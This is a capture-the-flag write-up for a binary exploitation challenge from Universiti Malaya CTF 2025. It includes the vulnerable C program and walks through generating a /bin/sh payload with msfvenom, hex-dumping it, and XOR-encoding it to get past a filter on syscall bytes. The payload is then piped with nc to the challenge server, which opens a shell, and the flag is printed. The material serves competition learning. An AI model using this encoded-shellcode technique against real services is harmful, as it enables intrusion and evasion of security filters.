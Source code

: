 ```yaml
---
title: "Universiti Malaya CTF 2025"
date: 2025-04-13 
categories: [CTF]
tags: [CTF]
image:
  path: assets/lib/Umcs.jpeg
---
```

## 💥 Binary Exploitation <br><br>

## Hint: 🔍🧬Shellcode 
```
#include <sys/mman.h>
#include <sys/prctl.h>
#include <sys/personality.h>
#include <arpa/inet.h>
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>

void *shellcode;
size_t shellcode_size;

void vuln() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    shellcode = mmap((void *)0x26e45000, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANON, 0, 0);

    puts("Enter 0x1000:");
    shellcode_size = read(0, shellcode, 0x1000);
    for (int i = 0; i < shellcode_size; i++) {
        uint16_t *scw = (uint16_t *)((uint8_t *)shellcode + i);
        if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f) {
            printf("Bad Byte at %d!\n", i);
            exit(1);
        }
    }

    puts("Executing shellcode!\n");
    ((void(*)())shellcode)();
}

int main() {
    vuln();
    return 0;
}
```
## 🔎 Initial Observation

```
  shellcode = mmap((void *)0x26e45000, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANON, 0, 0);
```
**This memory setup can be write down instructions and immediately carry them out. The**
**PROT_READ|PROT_WRITE|PROT_EXEC flags together mean this memory can be read from, written to, and run as code.**
```
  if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f) {
            printf("Bad Byte at %d!\n", i);
            exit(1);
        }
```
**This segment of code showing its banning direct system calls like ,syscalls,sysenter and int0x80 a traditional way to make system calls on 32 bit linux.**

```
 puts("Executing shellcode!\n");
    ((void(*)())shellcode)();
```
**If 0x80cd,0x340f,0x050f was called it will showing  bad byte and if no bad byte not appear it** 
**will execute the shellcode.**

---

## 🧨Exploitation Analysis 
```
(luna@faris)-[~/um]
└─$ msfvenom -p linux/x64/exec CMD="/bin/sh" -f raw > babysc.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 44 bytes
```
**Im just gonna use the msfvenom on this part.**
```
(luna@faris)-[~/um]
└─$ (cat babysc.bin; cat) | nc 34.133.69.112 10001
Enter 0x1000
Bad Byte at 42!
```
```
(luna@faris)-[~/um]
└─$ hexdump -C babysc.bin
00000000  48 b8 2f 62 69 6e 2f 73  68 00 99 50 54 5f 52 66  |H./bin/sh..PT_Rf|
00000010  68 2d 63 54 52 e8 08 00  00 00 2f 62 69 6e 2f  |h-cTR...../bin/|
00000020  73 68 00 56 57 54 5e 6a  3b 58 0f 05           |sh.VWT^j;X..|
0000002c
```
**I been wondering why its saying bad byte on this and decide to use hexdump on this part and its obviously im** 
**calling direct syscalls on /bin/sh so i decide to use xor encoder to encode the shellcode.** 




```
(redswiss@faris)-[~/Downloads]
└─$ msfvenom -p linux/x64/exec CMD="/bin/sh" -f raw -e x64/xor -o babysc.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 87 (iteration=0)
x64/xor chosen with final size 87
Payload size: 87 bytes
Saved as: babysc.bin

(redswiss@faris)-[~/Downloads]
└─$ hexdump -C babysc.bin
00000000  48 b1 c9 9e 48 81 e9 fa  ff ff ff 48 8d 05 ef ff  |H..H.......H....|
00000010  ff ff bb ef c8 f9 b6 62  b2 97 50 48 31 58 27 48  |....b..b.PH1X'H|
00000020  2d f8 ff ff ff e2 f4 a7  70 d6 d4 0b dc b8 23 87  |-...........p...#.|
00000030  c0 e0 6e 36 ed c5 36 87  e5 9a e2 3c e0 7f 58 ef  |..n6..6......<.X.|
00000040  c8 f9 99 00 db f9 7f 9c  a0 f9 e0 35 e6 c9 3a d4  |............5..:.|
00000050  90 f6 b3 62 b2 97 50                          |...b..P|
00000057
```

**Nice! We can see that its no longer using direct syscalls.**

## 🎉 Result

```
(luna@faris)-[~/um]
└─$ (cat babysc.bin; cat) | nc 34.133.69.112 10001
Enter 0x1000
Executing shellcode!

ls
babysc
flag.txt
limauaiakosong
supgais
```
```
Flag:umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a}
```















